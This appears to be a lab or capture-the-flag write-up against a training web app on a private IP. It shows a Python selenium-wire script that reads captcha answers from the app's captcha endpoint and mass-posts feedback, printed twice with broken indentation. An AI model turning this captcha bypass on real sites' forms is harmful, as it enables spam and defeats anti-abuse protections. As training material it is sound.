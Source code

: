## Send 10 Feedbacks Through the Feedback Form in less than 10 seconds
To solve this challenge, the process and the calling of the API needs to be first explored.

When submitting a feedback through the form, a captcha check is attached at the end. However, this captcha can be easily broken as it isn't an image or puzzle-based captcha, but rather a text math problem.

To solve this challenge, I'm using python's selenium-wire and webdriver_manager to start an instance of Chrome to execute my commands, together with requests and other libraries needed.

		import  requests
		from  requests.api  import  request
		from  seleniumwire  import  webdriver
		from  webdriver_manager.chrome  import  ChromeDriverManager
		import  time
		import  json
After that's done, all we need to do is to specify the URL of the contact form and start the webdriver to launch an instance of Chrome (and start a timer as well)

		urlpage  =  'http://192.168.235.129:3000/#/contact'
		driver  =  webdriver.Chrome(ChromeDriverManager().install())
		start  =  time.time()
We then start a for loop to iterate through each time a form submits, getting the website first, waiting a few milliseconds for it to render (since it is built from Angular) and then getting a captcha GET request with the requests library in order to get the answer for the captcha question. (Then end timer and print resulting end time)

		for  i  in  range (11):
			driver.get("http://192.168.235.129:3000/#/contact")
			time.sleep(0.1)
			arr  = []
			for  request  in  driver.requests:
			if  request.url  ==  "http://192.168.235.129:3000/rest/captcha/":
			arr.append(json.loads(request.response.body))
			answer  =  arr[-1]
			requests.post("http://192.168.235.129:3000/api/Feedbacks/", data={"captchaId":answer.get('captchaId'),"captcha":answer.get('answer'),"comment":"aaaa (anonymous)","rating":2})
	
		end  =  time.time()
		print(end-start)
Full stuff.py file:

	# import libraries

	import  requests
	from  requests.api  import  request
	from  seleniumwire  import  webdriver
	from  webdriver_manager.chrome  import  ChromeDriverManager
	import  time
	import  json

	# specify the url
	urlpage  =  'http://192.168.235.129:3000/#/contact'
	driver  =  webdriver.Chrome(ChromeDriverManager().install())
	start  =  time.time()

	for  i  in  range (11):
		driver.get("http://192.168.235.129:3000/#/contact")
		time.sleep(0.1)
		arr  = []
		for  request  in  driver.requests:
		if request.url  ==  "http://192.168.235.129:3000/rest/captcha/":
		arr.append(json.loads(request.response.body))
		answer  =  arr[-1]
		requests.post("http://192.168.235.129:3000/api/Feedbacks/", data={"captchaId":answer.get('captchaId'),"captcha":answer.get('answer'),"comment":"aaaa (anonymous)","rating":2})

	end  =  time.time()
	print(end-start)
